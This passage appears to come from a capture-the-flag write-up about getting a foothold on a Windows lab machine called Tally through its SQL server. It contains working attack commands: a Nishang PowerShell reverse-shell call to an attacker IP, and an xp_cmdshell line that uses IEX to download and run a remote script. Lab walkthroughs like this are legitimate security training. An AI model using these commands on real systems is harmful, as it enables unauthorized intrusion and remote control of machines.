



powershell IEX revshell
now that we have proof that code execution works on this machine and know our victim is a windows machine, we'll have tally's sql server download and execute a nishang powershell that will call a reverse shell back to our attack machine
that will call a reverse shell back to our attack machineFirst, move a nishang reverse shell to our working directory (don't forget to add the reverse shell call at the bottom of the script)
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.62 -Port 9001

and spin up an http server

now go back to sqsh, renable the advanced options and cmdshell, and download our file with a powershell's IEX command

xp_cmdshell "powershell.exe IEX(new-object net.webclient).downloadstring('http://10.10.14.62/rev.ps1')"

set up a listener on the designated port our reverse shell is coded to connect to and
we have our foothold!
